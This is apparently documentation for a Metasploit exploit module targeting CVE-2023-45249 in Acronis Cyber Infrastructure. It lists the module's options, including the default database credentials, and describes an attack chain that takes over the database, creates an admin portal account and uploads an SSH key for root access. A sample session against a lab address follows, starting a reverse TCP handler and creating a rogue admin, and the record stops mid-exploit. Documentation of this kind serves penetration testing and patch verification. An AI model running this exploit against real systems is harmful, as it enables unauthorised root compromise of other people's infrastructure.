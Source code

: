 ```msf

Basic options:
  Name           Current Setting  Required  Description
  ----           ---------------  --------  -----------
  DATABASE       keystone         yes       The database to authenticate against
  DBPORT         6432             yes       PostgreSQL DB port
  PASSWORD       vstoradmin       no        The password for the specified username. Leave blank for a random password.
  PRIV_KEY_FILE                   no        SSH private key file in PEM format (ssh-keygen -t rsa -b 2048 -m PEM -f <priv_key_file>)
  Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-me
                                            tasploit.html
  RPORT          8888             yes       The target port (TCP)
  SSHPORT        22               yes       SSH port
  SSL            true             no        Negotiate SSL/TLS for outgoing connections
  TARGETURI      /                yes       Path to the Acronis Cyber Infra application
  USERNAME       vstoradmin       yes       The username to authenticate as
  VHOST                           no        HTTP server virtual host

Payload information:

Description:
  Acronis Cyber Infrastructure (ACI) is an IT infrastructure solution that provides storage,
  compute, and network resources. Businesses and Service Providers are using it for data storage,
  backup storage, creating and managing virtual machines and software-defined networks, running
  cloud-native applications in production environments.
  This module exploits a default password vulnerability in ACI which allow an attacker to access
  the ACI PostgreSQL database and gain administrative access to the ACI Web Portal.
  This opens the door for the attacker to upload SSH keys that enables root access
  to the appliance/server. This attack can be remotely executed over the WAN as long as the
  PostgreSQL and SSH services are exposed to the outside world.
  ACI versions 5.0 before build 5.0.1-61, 5.1 before build 5.1.1-71, 5.2 before build 5.2.1-69,
  5.3 before build 5.3.1-53, and 5.4 before build 5.4.4-132 are vulnerable.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2023-45249
  https://security-advisory.acronis.com/advisories/SEC-6452
  https://attackerkb.com/topics/T2b62daDsL/cve-2023-45249

View the full module info with the info -d command.
```
## Scenarios
### Acronis Cyber Infrastructure 4.7 appliance Unix/Linux command
```msf
msf6 exploit(linux/http/acronis_cyber_infra_cve_2023_45249) > set rhosts 192.168.201.5
rhosts => 192.168.201.5
msf6 exploit(linux/http/acronis_cyber_infra_cve_2023_45249) > check
[*] 192.168.201.5:8888 - The target appears to be vulnerable. Version 4.7.1-53
msf6 exploit(linux/http/acronis_cyber_infra_cve_2023_45249) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version 4.7.1-53
[*] Creating admin user qagkx with password gXv0E2DUU9 for access at the Acronis Admin Portal.
[*] Saving admin credentials at the msf database.
[*] Creating SSH private and public key.
[*] Uploading SSH public key at the Acronis Admin Portal.
```